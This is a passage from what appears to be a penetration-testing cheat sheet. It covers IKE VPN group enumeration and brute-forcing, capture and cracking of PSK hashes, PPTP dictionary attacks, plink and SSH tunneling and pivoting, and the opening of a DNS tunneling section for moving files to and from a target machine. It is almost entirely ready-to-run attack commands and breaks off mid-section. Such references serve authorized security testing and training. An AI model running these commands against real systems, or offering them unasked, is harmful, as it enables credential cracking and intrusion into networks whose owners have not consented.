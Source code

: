         `pip install pyip`  
        
        `git clone https://github.com/SpiderLabs/ikeforce.git  `
        
        Perform IKE VPN enumeration with IKEForce:  
        
        `./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic  `
        
        Bruteforce IKE VPN using IKEForce:  
        
        `./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1  `
        Use ike-scan to capture the PSK hash:  
        
        ```bash
        ike-scan  
        ike-scan TARGET-IP  
        ike-scan -A TARGET-IP  
        ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key  
        ike-scan –M –A –n example\_group -P hash-file.txt TARGET-IP
        ```
        Use psk-crack to crack the PSK hash  
        
        ```bash
        psk-crack hash-file.txt  
        pskcrack  
        psk-crack -b 5 TARGET-IPkey  
        psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key  
        psk-crack -d /path/to/dictionary-file TARGET-IP-key
        ```

-   PPTP Hacking

    -   Identifying PPTP, it listens on TCP: 1723  
        NMAP PPTP Fingerprint:  
        
        `nmap –Pn -sV -p 1723 TARGET(S)  `
        PPTP Dictionary Attack  
        
        `thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst`

-   Port Forwarding/Redirection

-   PuTTY Link tunnel - SSH Tunneling

    -   Forward remote port to local address:  
    
         `plink.exe -P 22 -l root -pw "1337" -R 445:<local host>:445 <remote host>`

-   SSH Pivoting

    -   SSH pivoting from one network to another:  
    
        `ssh -D <local host>:1010 -p 22 user@<remote host>`

-   DNS Tunneling

    -   dnscat2 supports “download” and “upload” commands for getting iles (data and programs) to and from the target machine.

    -   Attacking Machine Installation:  
    